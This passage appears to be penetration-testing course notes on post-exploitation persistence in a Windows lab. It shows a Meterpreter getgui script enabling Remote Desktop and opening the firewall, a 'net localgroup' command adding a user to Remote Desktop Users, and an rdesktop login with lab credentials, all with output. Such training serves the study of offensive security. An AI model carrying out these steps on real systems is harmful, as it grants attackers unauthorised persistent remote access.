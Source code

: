     As we can see from the previous output we can simply enable RDP with the `-e` option, but we can also add a new user and password with `-p` and `-u`:
      ```
      meterpreter > run getgui -e
      [*] Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
      [*] Carloz Perez carloz_perez@darkoperator.com
      [*] Enabling Remote Desktop
      [*]    RDP is disabled; enabling it ...
      [*] Setting Terminal Services service startup mode
      [*]    The Terminal Services service is not set to auto, changing it to auto ...
      [*]    Opening port in local firewall if necessary
      [*] For cleanup use command: run multi_console_command -rc /root./msf5/logs/scr
      meterpreter >
      ```

      Here we can see we have successfully enabled RDP and we also set it automatically starts when the user logs in.

    Enabling RDP on the machine is not all.
    If the target user (the one we know the credentials for) is not allowed to connect through RDP, we will have to grant him this privilege by adding him to the Remote Desktop Users group.
    Moreover we have to be sure that Windows firewall does not block the connections.

    We assume that this group can log in to RDP, in other words that "Allow log on through Remote Desktop Services" Local policy is assigned to the Remote Users group. (See img-132)
    If the box is hardened this might not be the case.

    From the Windows shell we can issue the command:
      ```
      net localgroup "Remote Desktop Users" els_user /add
      ```
      where `Remote Desktop User` is the name of the local group we want to add the user to and `els_user` is the username.

    If the command succeed we will get something like this:
      ```
      C:\Windows\system32>net localgroup "Remote Desktop Users" els_user /add net localgroup "Remote Desktop Users" els_user /add
      The command completed successfully.
      ```

    The following snapshots show what happens before and after the command (see img-134)(Picture of victim's remote desktop users being added with us)

    We can now check that everything works by trying to establish an RDP connection to the target machine:
      ```
      rdesktop [IP_ADDRESS] -u [USERNAME] -p [PWD]
      ```
      Example:
      ```
      stduser@els:~$ rdesktop 192.168.102.157 -u els_user -p els_pwd
      Autoselected keyboard map en-us
      ERROR: CredSSP: Initialize failed, do you have the correct kerberos tgt initialized ?
      Connection establishing using SSL.
      WARNING: Remote desktop does not support colour depth 24; falling back to 16
      ```
